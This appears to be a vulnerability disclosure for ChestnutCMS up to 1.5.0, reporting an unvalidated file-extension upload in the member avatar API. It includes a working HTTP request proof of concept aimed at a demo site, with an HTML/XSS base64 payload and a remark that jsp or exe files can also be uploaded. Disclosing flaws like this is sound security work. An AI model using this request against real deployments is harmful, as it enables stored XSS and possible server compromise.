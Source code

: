**[CVE-ID]**

**[PRODUCT]**

ChestnutCMS

**[Vendor of Product]**

https://gitee.com/liweiyi/ChestnutCMS

**[VERSION]**

ChestnutCMS <=1.5.0

**[Vulnerability Type]**

File Upload

**[Description]**
Based on the code analysis, it was determined that the /avatar API endpoint receives a base64 string as input. This string is then passed to the memberService.uploadAvatarByBase64 method for processing. Within the service, the base64-encoded image is parsed. For example, given a string like:
data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
the content after the comma is extracted and decoded using Base64.getDecoder().decode().
The substring from the 11th character up to the first occurrence of a semicolon (;) is assigned to the suffix variable (representing the file extension). The decoded content is then written to a file.
However, the file extension is not validated, and since this functionality is exposed to the frontend, it poses significant security risks.



## POC：
Test with the official demonstration site and use the provided demonstration account
![image](https://github.com/user-attachments/assets/8f09a097-8729-4b9c-a199-4e17368d081c)

After logging in, replace the Authorization-M in the PoC with your account information.
Use Burp Suite to send the following crafted malicious 

PoC:

```
POST /api/member/avatar HTTP/1.1
Host: swikoon.1000mz.com
Authorization-M: Bearer b67fafaf-dd79-4c6d-8e6a-51f23a14a5b0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymTQcZR4jrbYbTdAy


------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="action"

wpcom_cropped_upload
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="nonce"

undefined
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="image"

data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="type"

0
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="user"

443381386166341
------WebKitFormBoundarymTQcZR4jrbYbTdAy--
```

![image](https://github.com/user-attachments/assets/cfa02ddd-ad75-4c8c-b145-faa3f91ffb07)

Access the return address
![image](https://github.com/user-attachments/assets/ea6cff33-0831-438d-a091-4c361ea30f9b)
Of course, you can also upload jsp or exe files

demo site
http://news.1000mz.com

official website
https://gitee.com/liweiyi/ChestnutCMS
https://www.1000mz.com/



